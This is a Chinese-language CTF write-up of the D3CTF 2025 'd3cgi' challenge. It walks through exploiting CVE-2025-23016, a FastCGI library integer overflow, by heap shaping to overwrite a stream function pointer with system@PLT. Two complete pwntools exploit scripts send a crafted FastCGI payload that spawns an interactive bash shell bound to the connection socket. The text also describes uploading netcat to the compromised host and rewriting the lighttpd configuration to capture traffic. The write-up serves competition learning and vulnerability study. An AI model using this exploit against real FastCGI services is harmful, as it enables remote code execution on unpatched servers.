





# d3cgi

## 文件属性

|属性  |值    |
|------|------|
|Arch  |i386  |
|RELRO|Partial|
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## 解题思路

### 寻找线索

大致看了一下`challenge`，没什么明显的bug，而且需要`libfcgi.so`的结构体信息才能进一步分析。
使用`checksec`发现`libfcgi++.so`含有RUNPATH，
使用`patchelf`可以找到是`/home/eqqie/CTF/d3ctf2025/FxxkCGI/fcgi2/libfcgi/.libs`。

根据这个线索可以在GitHub上找到[同名的仓库](https://github.com/FastCGI-Archives/fcgi2)，
从`include`目录中就可以翻找到结构体的定义。然而还原结构体后仍未发现明显bug，推测可能有CVE。

在搜索引擎中搜索，确实有[CVE-2025-23016](https://github.com/advisories/GHSA-9825-56cx-cfg6)，
可以从中找到[实现利用的博客](https://www.synacktiv.com/en/publications/cve-2025-23016-exploiting-the-fastcgi-library)。

具体的分析在上面的博客中已经非常清晰了，我这里就不再赘述。当我找到博客时，以为题目就要出了，
然而，远程的问题，使我无法再向flag迈进一步。

### 堆风水与函数指针

简单来说，想要照着博客利用这道题，需要首先发送一个正常的请求，来在堆上创建一些空洞。
（当请求完成时，会释放所有堆块）然后通过精心构造的 *Params* 消耗堆块，
最后在`FCGX_Stream`结构体前申请一个`0x10`大小的堆块并触发溢出写，
造成`stream->fillBuffProc`的覆盖，实现控制流劫持。对于这道题来说，就是执行`system(stream)`。

为了触发溢出写，需要了解fastcgi中 *Params* 大小的机制。这些参数有`Key`和`Value`，
类似于环境变量，用`Key=Value`组织起来。两个值分别独立传输，先分别定义两者的大小，
再分别给出具体的内容。如果大小不超过`0x80`，那么只占用1个字节；如果超过，
那么用4字节表示大小，用最高位表示开启4字节扩展，然后最高位将在转换为实际大小时被抹除。

```c /libfcgi/libfcgiapp.c::ReadParams#L1171
        if((nameLen & 0x80) != 0) {
            if(FCGX_GetStr((char *) &lenBuff[0], 3, stream) != 3) {
                SetError(stream, FCGX_PARAMS_ERROR);
                return -1;
        }
            nameLen = ((nameLen & 0x7f) << 24) + (lenBuff[0] << 16)
                    + (lenBuff[1] << 8) + lenBuff[2];
```

分别读取`Key`和`Value`的大小后，将分配一个缓冲区来存放键值对，
总共的大小是`len(key) + len(val) + 2`(额外的空间用于存放`'='`和`'\0'`)。
如果设置`Key`和`Value`传入的大小为`0xffffffff`，
那么抹除符号位后`0x7fffffff * 2 + 2 == 0`，即执行`malloc(0)`。
此时我们能写入的大小是`0x7fffffff`，因而在分配的缓冲区上发生了堆溢出。

> [!IMPORTANT]
> `Malloc`（`malloc`的包装函数）的参数类型是`size_t`，对于64位机来说，
> 运算时会自动扩展长度，因而将得到`1 << 32`的实际大小，无法产生堆溢出。
> 为了创造整数溢出，必须在`size_t`是32位的架构上利用，这也就是为什么`challenge`是32位的。

由于`challenge`没有开PIE，因此在确定的堆布局下，控制函数指针为`system@PLT`，
就可以实现任意shell命令执行。然而，原exp并不能使用，因为堆布局不同。还好给了容器，
可以安装上gdbserver后调试。利用前使用`curl 127.0.0.1:8888`初始化一下堆块，
然后用gdbserver挂到`challenge`上就可以调试了。

> [!TIP]
> 下断点下在`ReadParams`，`c`两次进入到内层，然后就到了堆风水开始的地方。
> 一路`n`到`FCGX_GetChar`，第一个参数就是`stream`，使用`heap`找到在它之前的堆块就可以尝试覆盖了。

检查堆块布局，可以确定我们需要先分配一个`0x10`的堆块，将`0x20`的unsorted bin切成2块，
再用上面的思路就可以打堆溢出了。



原版的exp在shell语句前有一串`" bi;"`能不能去掉呢？分析代码，由于我们的`n`非常大，
因此肯定会跳过`FCGX_GetStr`中的"fastpath"，直接到循环语句。接着做`memcpy`复制我们剩余的payload到堆块中，
发生溢出，由于我们的payload使`isClosed || !isReader`均不满足，因此会往下走到函数指针处，
顺利劫持控制流。要注意的是复制内存后有一句`stream->rdNext += m`，因此shell语句的第一个字节会发生修改，
这就是为什么下面的exp中，一开始是`" ;"`。

观察远程环境中打开的fd， **3** 是我们的连接，可以将0、1恢复成3来运行交互式shell。
为了避免运行shell时连接被中断而使`challenge`一直处于等待状态，加上`&`来将其放到后台。
总而言之，这样就可以在本地打开shell了。

### 本地利用

```sh
curl 127.0.0.1:8888
```

```python
#!/usr/bin/env python3
from pwn import *
import requests

exe = context.binary = ELF('./files/challenge')

def start(argv=[], *a, **kw):
    # return remote("35.241.98.126", 30642)
    return remote("127.0.0.1", 9999)

"""
typedef struct {
    unsigned char version;
    unsigned char type;
    unsigned char requestIdB1;
    unsigned char requestIdB0;
    unsigned char contentLengthB1;
    unsigned char contentLengthB0;
    unsigned char paddingLength;
    unsigned char reserved;
} FCGI_Header;
"""

def makeHeader(type, requestId, contentLength, paddingLength):
    header = p8(1) + p8(type) + p16(requestId) + p16(contentLength)[::-1] + p8(paddingLength) + p8(0)
    return header

"""
typedef struct {
    unsigned char roleB1;
    unsigned char roleB0;
    unsigned char flags;
    unsigned char reserved[5];
} FCGI_BeginRequestBody;
"""

def makeBeginReqBody(role, flags):
    return p16(role)[::-1] + p8(flags) + b"\x00" * 5

io = start()

header = makeHeader(9, 0, 900, 0)

io.send(makeHeader(1, 1, 8, 0) + makeBeginReqBody(1, 0) + header + p8(0) * 2 + p32(0xffffffff) + p32(0xffffffff)  + b"a" * (4 * 4) + b" ;bash -i <&3 >&3 & " +p32(0) * 3 + p32(exe.plt["system"]) )

io.interactive()
```

### 远程无法打开shell

无论我怎么尝试，远程都无法打开shell。询问出题人，得到的答案只有“尝试重启靶机”和“确保exp健壮性”，
这个提示给了跟没给一样，没有一点信息量。就这样坐牢了一整天，到最后也没有做出来。
直到[官方wp](https://github.com/D-3CTF/D3CTF-2025-Official-Writeup/blob/main/D3CTF-2025-Official-Writeup-EN.pdf)放出，
才知道要抓一下从`lighttpd`到`challenge`的流量。不是，那直接给提示“不要使用curl”不就行了吗？？
不会出题人还觉得自己当谜语人是什么造就好题的好办法吧？？

### 水落石出

当我看到官方的exp时我是不相信的。它控制堆块的payload和我有不小的差别，怎么想都不对吧？
但是试了一下又确实没问题。我又把我的payload贴上去，打不通，这时我才意识到，
我们两个给`challenge`发的初始化请求不同，因此堆风水也不一样，从而说明，
确实要直接发裸的FastCGI请求才能精准控制。由于靶机上的环境实在太残缺了，为了抓取流量，
我先试了`openssl`来传`netcat`，但是连接总是被关断。最后我选择把本地的`netcat`base64后传过去，
然后解码成原始ELF后监听端口 **7777**，并把输出重定向。
再用`sed`把`lighttpd.conf`中的 **9999** 换成 **7777**，这样我在本地curl远程时，
`netcat`就能劫持到来自lighttpd的FastCGI流量。最后把流量base64编码后就可以顺利传出来。

> [!IMPORTANT]
> 在这个不稳定的shell中探索实际上非常有挑战性。如果在中途查了一会儿文档导致有段时间没操作，
> 那么连接就会断开。为了腾出8888/9999端口，需要杀死lighttpd并重启。在这个情况下，
> 由于服务无法正常启动，因此原来的exp是打不通的，一旦断开shell连接，我们就无法操作，
> 只能重开靶机了。

最终在本地截获和在远程截获的流量分别如下所示：

```hex native.bin
00000000: 0101 0001 0008 0000 0001 0000 0000 0000  ................
00000010: 0104 0001 01ae 0000 0e01 434f 4e54 454e  ..........CONTEN
00000020: 545f 4c45 4e47 5448 300c 0051 5545 5259  T_LENGTH0..QUERY
00000030: 5f53 5452 494e 470b 0152 4551 5545 5354  _STRING..REQUEST
00000040: 5f55 5249 2f0f 0352 4544 4952 4543 545f  _URI/..REDIRECT_
00000050: 5354 4154 5553 3230 300b 0153 4352 4950  STATUS200..SCRIP
00000060: 545f 4e41 4d45 2f0f 0e53 4352 4950 545f  T_NAME/..SCRIPT_
00000070: 4649 4c45 4e41 4d45 2f68 6f6d 652f 6374  FILENAME/home/ct
00000080: 662f 7777 772f 0d0d 444f 4355 4d45 4e54  f/www/..DOCUMENT
00000090: 5f52 4f4f 542f 686f 6d65 2f63 7466 2f77  _ROOT/home/ctf/w
000000a0: 7777 0e03 5245 5155 4553 545f 4d45 5448  ww..REQUEST_METH
000000b0: 4f44 4745 540f 0853 4552 5645 525f 5052  ODGET..SERVER_PR
000000c0: 4f54 4f43 4f4c 4854 5450 2f31 2e31 0f0f  OTOCOLHTTP/1.1..
000000d0: 5345 5256 4552 5f53 4f46 5457 4152 456c  SERVER_SOFTWAREl
000000e0: 6967 6874 7470 642f 312e 342e 3739 1107  ighttpd/1.4.79..
000000f0: 4741 5445 5741 595f 494e 5445 5246 4143  GATEWAY_INTERFAC
00000100: 4543 4749 2f31 2e31 0e04 5245 5155 4553  ECGI/1.1..REQUES
00000110: 545f 5343 4845 4d45 6874 7470 0b04 5345  T_SCHEMEhttp..SE
00000120: 5256 4552 5f50 4f52 5438 3838 380b 0953  RVER_PORT8888..S
00000130: 4552 5645 525f 4144 4452 3132 372e 302e  ERVER_ADDR127.0.
00000140: 302e 310b 0953 4552 5645 525f 4e41 4d45  0.1..SERVER_NAME
00000150: 3132 372e 302e 302e 310b 0952 454d 4f54  127.0.0.1..REMOT
00000160: 455f 4144 4452 3132 372e 302e 302e 310b  E_ADDR127.0.0.1.
00000170: 0552 454d 4f54 455f 504f 5254 3437 3734  .REMOTE_PORT4774
00000180: 3009 0e48 5454 505f 484f 5354 3132 372e  0..HTTP_HOST127.
00000190: 302e 302e 313a 3838 3838 0f0b 4854 5450  0.0.1:8888..HTTP
000001a0: 5f55 5345 525f 4147 454e 5463 7572 6c2f  _USER_AGENTcurl/
000001b0: 382e 3134 2e30 0b03 4854 5450 5f41 4343  8.14.0..HTTP_ACC
000001c0: 4550 542a 2f2a 0104 0001 0000 0000 0105  EPT*/*..........
000001d0: 0001 0000 0000                           ......
```

```hex remote.bin
00000000: 0101 0001 0008 0000 0001 0000 0000 0000  ................
00000010: 0104 0001 01bb 0000 0e01 434f 4e54 454e  ..........CONTEN
00000020: 545f 4c45 4e47 5448 300c 0051 5545 5259  T_LENGTH0..QUERY
00000030: 5f53 5452 494e 470b 0152 4551 5545 5354  _STRING..REQUEST
00000040: 5f55 5249 2f0f 0352 4544 4952 4543 545f  _URI/..REDIRECT_
00000050: 5354 4154 5553 3230 300b 0153 4352 4950  STATUS200..SCRIP
00000060: 545f 4e41 4d45 2f0f 0e53 4352 4950 545f  T_NAME/..SCRIPT_
00000070: 4649 4c45 4e41 4d45 2f68 6f6d 652f 6374  FILENAME/home/ct
00000080: 662f 7777 772f 0d0d 444f 4355 4d45 4e54  f/www/..DOCUMENT
00000090: 5f52 4f4f 542f 686f 6d65 2f63 7466 2f77  _ROOT/home/ctf/w
000000a0: 7777 0e03 5245 5155 4553 545f 4d45 5448  ww..REQUEST_METH
000000b0: 4f44 4745 540f 0853 4552 5645 525f 5052  ODGET..SERVER_PR
000000c0: 4f54 4f43 4f4c 4854 5450 2f31 2e31 0f0f  OTOCOLHTTP/1.1..
000000d0: 5345 5256 4552 5f53 4f46 5457 4152 456c  SERVER_SOFTWAREl
000000e0: 6967 6874 7470 642f 312e 342e 3739 1107  ighttpd/1.4.79..
000000f0: 4741 5445 5741 595f 494e 5445 5246 4143  GATEWAY_INTERFAC
00000100: 4543 4749 2f31 2e31 0e04 5245 5155 4553  ECGI/1.1..REQUES
00000110: 545f 5343 4845 4d45 6874 7470 0b04 5345  T_SCHEMEhttp..SE
00000120: 5256 4552 5f50 4f52 5438 3838 380b 0b53  RVER_PORT8888..S
00000130: 4552 5645 525f 4144 4452 3130 2e37 322e  ERVER_ADDR10.72.
00000140: 3135 2e32 380b 0d53 4552 5645 525f 4e41  15.28..SERVER_NA
00000150: 4d45 3335 2e32 3431 2e39 382e 3132 360b  ME35.241.98.126.
00000160: 0b52 454d 4f54 455f 4144 4452 3130 2e31  .REMOTE_ADDR10.1
00000170: 3730 2e30 2e34 320b 0552 454d 4f54 455f  70.0.42..REMOTE_
00000180: 504f 5254 3534 3934 3109 1348 5454 505f  PORT54941..HTTP_
00000190: 484f 5354 3335 2e32 3431 2e39 382e 3132  HOST35.241.98.12
000001a0: 363a 3330 3938 330f 0b48 5454 505f 5553  6:30983..HTTP_US
000001b0: 4552 5f41 4745 4e54 6375 726c 2f38 2e31  ER_AGENTcurl/8.1
000001c0: 342e 300b 0348 5454 505f 4143 4345 5054  4.0..HTTP_ACCEPT
000001d0: 2a2f 2a01 0400 0100 0000 0001 0500 0100  */*.............
000001e0: 0000 00                                  ...
```

可以看出来，两者的差别不大，主要在于一些地址上的差异。
如果继续深入调查原来那些空洞堆块中存放的是啥的话，
可以发现我所打的堆块都是第一次正常请求中的键值对，而不是原来的stream结构体。
这就导致了远程环境“不可预测”。



我们可以做一下对比，这是本地打的时候的堆布局：



而这是打远程时的堆布局：



最后我们固定使用本地的初始化payload打远程，就可以成功打开shell了。

### 最终EXPLOIT

```python
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF('./files/challenge')

def start():
    return remote("35.241.98.126", 32232)
    # return remote("127.0.0.1", 9999)

def makeHeader(reqType: int, reqId: int, contentLen: int, padLen: int) -> bytes:
    return p8(1) + p8(reqType) + p16(reqId) + p16(contentLen)[::-1] + p8(padLen) + p8(0)

def makeBeginReqBody(role: int, flags: int) -> bytes:
    return p16(role)[::-1] + p8(flags) + b"\x00" * 5

# NOTE: didn't handle messy environment like official writeup

# First, send a normal request to set up heap
io = start()
io.send(
    b'\x01\x01\x00\x01\x00\x08\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x01\x04'
    b'\x00\x01\x01\xae\x00\x00\x0e\x01CONTENT_LENGTH0\x0c\x00QUERY_STRING'
    b'\x0b\x01REQUEST_URI/\x0f\x03REDIRECT_STATUS200\x0b\x01SCRIPT_NAME/'
    b'\x0f\x0eSCRIPT_FILENAME/home/ctf/www/\r\rDOCUMENT_ROOT/home/ctf/www'
    b'\x0e\x03REQUEST_METHODGET\x0f\x08SERVER_PROTOCOLHTTP/1.1\x0f\x0fSERVER_SOFTWARElighttpd/1.4.79'
    b'\x11\x07GATEWAY_INTERFACECGI/1.1\x0e\x04REQUEST_SCHEMEhttp\x0b\x04SERVER_PORT8888'
    b'\x0b\tSERVER_ADDR127.0.0.1\x0b\tSERVER_NAME127.0.0.1\x0b\tREMOTE_ADDR127.0.0.1'
    b'\x0b\x05REMOTE_PORT47740\t\x0eHTTP_HOST127.0.0.1:8888\x0f\x0bHTTP_USER_AGENTcurl/8.14.0'
    b'\x0b\x03HTTP_ACCEPT*/*\x01\x04\x00\x01\x00\x00\x00\x00\x01\x05\x00\x01\x00\x00\x00\x00'
)
io.recvuntil(b'HELLO!')
io.close()

# Seccond, make a malicious payload
io = start()
io.send(
    makeHeader(1, 1, 8, 0) + makeBeginReqBody(1, 0) + makeHeader(9, 0, 900, 0) + \
        p8(0) * 2 + \
        p32(0xffffffff) * 2 + cyclic(16) + b" ;bash -i <&3 >&3 &".ljust(20) + \
        p32(0) * 3 + p32(exe.plt["system"])
)

io.interactive()
```


